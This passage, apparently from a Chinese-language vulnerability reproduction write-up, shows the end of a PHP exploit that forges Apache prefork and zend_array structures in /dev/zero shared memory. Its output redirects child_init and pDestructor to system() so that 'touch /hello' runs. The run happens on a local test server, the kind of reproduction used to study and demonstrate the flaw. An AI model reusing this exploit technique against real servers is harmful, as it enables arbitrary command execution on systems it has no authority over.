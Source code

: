     $shm_region = get_mem_region("/dev/zero");
    $evil_shm_start_addr = $evil_string_end_addr;
    $evil_shm_end_addr = $shm_region[0][1];
    $evil_shm_size = $evil_shm_end_addr - $evil_shm_start_addr;

    $evil_shm_mid_addr = $evil_shm_start_addr + 8*((int)(((int)($evil_shm_size/2))/8) + 1);

    echo "evil_shm_start:0x".dechex($evil_shm_start_addr)."\n";
    echo "evil_shm_end:0x".dechex($evil_shm_end_addr)."\n";
    echo "evil_shm_size:".dechex($evil_shm_size)."\n";

    for($i = 0;$i<$evil_shm_size;$i+=8){
        write_mem_qword($evil_shm_start_addr+$i,$evil_zend_array_start_addr);
    }


    echo "evil_shm_mid_addr:0x".dechex($evil_shm_mid_addr)."\n";

    echo "bucket:".dechex($bucket)."\n";
    ?>

利用成功时，会在根目录下，创建hello文件

#### 步骤

##### 根目录显示

    ➜  ~ ls /
    bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www

##### 让服务器执行恶意php代码

    ➜  ~ curl 127.0.0.1
    PID: 19896
    /dev/zero start addr:0x7f1f62a32000
    /dev/zero end addr:0x7f1f62a4a000
    self parent struct addr:0x7f1f62a32040
    parent arr addr:0x7f1f62a32040
    heap start addr:0xf59000
    heap end addr:0x1022000
    libapr text start addr:0x7f1f61ffa000
    libapr text end addr:0x7f1f6202f000
    libapr data start addr:0x7f1f6222e000
    libapr data end addr:0x7f1f6222f000
    all_buckets addr:0xff0c18
    evil prefork_child_bucket start addr:0x7f1f62a321a8
    evil prefork_child_bucket end addr:0x7f1f62a321e0
    evil zend_array start addr:0x7f1f62a321e0
    evil zend_array end addr:0x7f1f62a32218
    evil mutex_methods start addr:0x7f1f62a32218
    evil mutex_methods end addr:0x7f1f62a32268
    evil string: touch /hello len:16
    evil string start addr:0x7f1f62a32268
    evil string end addr:0x7f1f62a32278
    zend_object_std_dtor function addr:0x7f1f5c03d300
    system function addr:0x7f1f617a94c0
    child_init(0x7f1f62a32248) => zend_object_std_dtor
    pDestructor(0x7f1f62a32210) => system
    meth(0x7f1f62a321e8) => mutex_mthods_struct
    mutex(0x7f1f62a321b8) => zend_array struct
    properties(0x7f1f62a321d8) => zend_array struct
    ar_data(0x7f1f62a321f0) => evil string
